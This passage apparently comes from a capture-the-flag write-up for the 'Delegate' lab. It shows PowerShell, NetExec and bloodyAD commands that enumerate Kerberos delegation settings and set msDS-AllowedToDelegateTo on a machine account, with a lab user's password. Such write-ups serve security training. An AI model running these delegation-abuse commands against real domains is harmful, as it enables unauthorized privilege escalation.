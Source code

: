 Now lets check that the flag is set to true or not with our N.thompson’s shell.

```powershell
get-adcomputer -properties * -filter * | select trustedtoauthfordelegation, uac, samaccountname
```

![image.png](/assets/images/Delegate_VL/image%2022.png)

We can confirm this by using NetExec too.

```bash
nxc ldap delegate.vl -u 'n.thompson' -p 'KALEB_2341' --find-delegation
```

![image.png](/assets/images/Delegate_VL/image%2023.png)

Now we only have to provide the delegation rights.

So now we set the **msDS-AllowedToDelegateTo** flag.

This can also be done using BloodyAD.

```bash
bloodyAD -u 'n.thompson' -p 'KALEB_2341' --host 'dc1.delegate.vl' -d 'delegate.vl' set object 'aashwin$' 'msDS-AllowedToDelegateTo' -v 'HTTP/DC1.DELEGATE.VL'
```

![image.png](/assets/images/Delegate_VL/image%2024.png)

But we experienced some problems with the constrained delegation so lets proceed with the unconstrained delegation.
